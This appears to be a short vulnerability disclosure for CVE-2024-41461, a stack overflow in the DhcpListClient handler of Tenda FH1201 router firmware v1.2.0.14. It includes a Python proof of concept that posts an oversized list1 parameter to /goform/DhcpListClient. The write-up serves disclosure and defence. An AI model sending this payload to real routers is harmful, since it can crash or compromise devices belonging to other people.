


# DhcpListClient

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41461

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the DhcpListClient function.Without checking the length of the parameter list1, it was assigned to stackspace 




### poc

```python
import requests

ip = '192.168.74.145'


url = f"http://{ip}/goform/DhcpListClient"
payload = b"a"*2000

data = {"LISTLEN":1,"page":1,"list1": payload}
response = requests.post(url, data=data)
print(response.text)
```



